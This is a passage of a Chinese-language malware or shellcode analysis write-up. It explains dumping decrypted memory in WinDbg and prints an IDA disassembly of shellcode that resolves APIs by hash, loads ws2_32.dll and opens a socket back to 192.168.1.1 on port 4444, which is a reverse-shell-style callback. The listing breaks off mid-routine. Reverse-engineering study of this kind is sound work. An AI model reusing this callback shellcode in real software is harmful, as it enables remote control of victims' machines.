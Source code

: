     .writemem c:\dump.dmp 0000000140000000 0000000140010200
为什么是写这些呢？因为0000000140000000是mz，然后我dump和exe同样大小的内存。虽然dump出来的不会是一个能够运行的exe，但是对我们来说足够了。<br>
因为这次dump，其实也只是为了看一下解密后的代码。直接用任务管理器的dump，会出现一种情况，就是，数据量太多，不便分析。<br>

把dump出来的程序放到ida里，通过winhex等的合作，找到我们调试不下去的地方。<br>
然后静态分析，整个shellcode，功能段如下：<br>

    .text:0000000140001C8E                 lea     rdx, [rsp+30h]
    .text:0000000140001C93                 lea     ecx, [rax+68h]
    .text:0000000140001C96                 mov     dword ptr [rsp+50h], '_2sw'
    .text:0000000140001C9E                 mov     dword ptr [rsp+54h], 'd.23'
    .text:0000000140001CA6                 rep stosb
    .text:0000000140001CA8                 mov     ecx, 0FFFB8C06h
    .text:0000000140001CAD                 mov     word ptr [rsp+58h], 'll'
    .text:0000000140001CB4                 mov     byte ptr [rsp+5Ah], 0
    .text:0000000140001CB9                 mov     dword ptr [rsp+60h], '.291'
    .text:0000000140001CC1                 mov     dword ptr [rsp+64h], '.861'
    .text:0000000140001CC9                 mov     dword ptr [rsp+68h], '1.1'
    .text:0000000140001CD1                 mov     dword ptr [rbp+1B0h], '!iH'
    .text:0000000140001CDB                 mov     dword ptr [rbp+1B8h], 'enoD'
    .text:0000000140001CE5                 mov     word ptr [rbp+1BCh], '!'
    .text:0000000140001CEE                 mov     dword ptr [rsp+40h], 'rgnc'
    .text:0000000140001CF6                 mov     dword ptr [rsp+44h], 'luta'
    .text:0000000140001CFE                 mov     dword ptr [rsp+48h], 'oita'
    .text:0000000140001D06                 mov     word ptr [rsp+4Ch], 'n'
    .text:0000000140001D0D                 mov     dword ptr [rsp+30h], 'rgnc'
    .text:0000000140001D15                 mov     dword ptr [rsp+34h], 'luta'
    .text:0000000140001D1D                 mov     dword ptr [rsp+38h], 'oita'
    .text:0000000140001D25                 mov     word ptr [rsp+3Ch], 'n'
    .text:0000000140001D2C                 call    get_func_addr
    .text:0000000140001D31                 lea     rcx, [rsp+50h]  ; ws2_32.dll
    .text:0000000140001D36                 call    rax             ; loadlibrary()
    .text:0000000140001D38                 lea     rdx, [rsp+31h]
    .text:0000000140001D3D                 mov     ecx, 5C8A5B3Ah
    .text:0000000140001D42                 call    get_func_addr
    .text:0000000140001D47                 lea     rdx, [rsp+32h]
    .text:0000000140001D4C                 mov     ecx, 4011469352
    .text:0000000140001D51                 mov     r14, rax
    .text:0000000140001D54                 call    get_func_addr
    .text:0000000140001D59                 lea     rdx, [rbp-10h]
    .text:0000000140001D5D                 mov     ecx, 202h
    .text:0000000140001D62                 call    rax             ; socket()
    .text:0000000140001D64                 lea     rdx, [rsp+33h]
    .text:0000000140001D69                 mov     ecx, 725A5C1Fh
    .text:0000000140001D6E                 call    get_func_addr
    .text:0000000140001D73                 and     dword ptr [rsp+28h], 0
    .text:0000000140001D78                 and     dword ptr [rsp+20h], 0
    .text:0000000140001D7D                 xor     r9d, r9d
    .text:0000000140001D80                 xor     r8d, r8d
    .text:0000000140001D83                 lea     edx, [r9+1]
    .text:0000000140001D87                 lea     ebx, [rdx+1]
    .text:0000000140001D8A                 mov     ecx, ebx
    .text:0000000140001D8C                 call    rax             ; socket()
    .text:0000000140001D8E                 lea     rdx, [rsp+34h]
    .text:0000000140001D93                 mov     ecx, 61ADEF4h
    .text:0000000140001D98                 mov     rdi, rax        ; rdi = socket
    .text:0000000140001D9B                 call    get_func_addr
    .text:0000000140001DA0                 lea     rcx, [rsp+60h]  ; 192.168.1.1
    .text:0000000140001DA5                 mov     [rsp+70h], bx
    .text:0000000140001DAA                 call    rax             ; inet_addr()
    .text:0000000140001DAC                 lea     rdx, [rsp+35h]
    .text:0000000140001DB1                 mov     [rsp+74h], eax
    .text:0000000140001DB5                 mov     eax, 5C11h      ; 4444
    .text:0000000140001DBA                 mov     ecx, 5C9CA034h